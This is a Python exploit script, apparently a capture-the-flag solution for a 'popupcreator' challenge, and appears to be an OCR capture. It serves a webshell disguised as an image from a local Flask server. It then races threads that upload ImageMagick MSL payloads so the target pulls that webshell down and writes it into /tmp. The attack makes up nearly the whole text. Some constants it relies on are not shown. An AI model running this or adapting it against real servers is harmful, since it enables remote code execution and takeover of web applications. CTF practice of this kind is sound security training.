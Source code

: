 ```python
REQ_PER_THREAD = 150

app = Flask(__name__)
@app.route('/')
def index():
    return '<html><head></head><body><img src="vid:msl:/tmp/php*"></body></html>'

@app.route('/image.png')
def image():
    image_binary = base64.b64decode(IMG_WEBSHELL)
    return send_file(io.BytesIO(image_binary), mimetype='image/jpeg', as_attachment=True, download_name='image.png')

def get_server_info():
    ip_port = argparse.ArgumentParser()
    ip_port.add_argument('url', help="URL of the challenge, ie. https://popupcreator.ctf.bzh/")
    ip_port.add_argument("-n",  default="172.0.0.1", help="IP of the listening webserver.")
    ip_port.add_argument("-p", type=int, default='8000', help="PORT of the listening webserver.")
    ip_port_parsed = ip_port.parse_args()
    return ip_port_parsed

def send_msl(url, local_server):
    print("[+] Send MSL to server")
    for i in range(100):
        try:
            payload = MSL_PAYLOAD.replace("{URL}", f"{local_server}image.png")
            files = {}
            for i in range(REQ_PER_THREAD):
                files[f"file{i}"] = payload
            requests.post(url, files=files)
        except:
            pass

def send_rate(url, local_server):
    print("[+] Send fetch request to server")
    for i in range(REQ_PER_THREAD):
        try:
            requests.post(f"{url}/fetch", data={"url": local_server})
        except:
            pass

if __name__ == "__main__":
    infos = get_server_info()
    local_server = f"http://{infos.n}:{infos.p}/"
    app_thread = Thread(target=lambda: app.run(host=infos.n, port=infos.p, use_reloader=False))
    app_thread.setDaemon(True)
    app_thread.start()

    time.sleep(1)

    l1, l2 = [], []
    for i in range(THREADS_NB):  # preload race
        l1.append(Thread(target=lambda: send_msl(infos.url, local_server)))
        l2.append(Thread(target=lambda: send_rate(infos.url, local_server)))

    for i in range(THREADS_NB):  # run race
        l1[i].start()
        l2[i].start()

    for t in range(THREADS_NB):  # Wait for end of thread
        l1[i].join()
        l2[i].join()

```
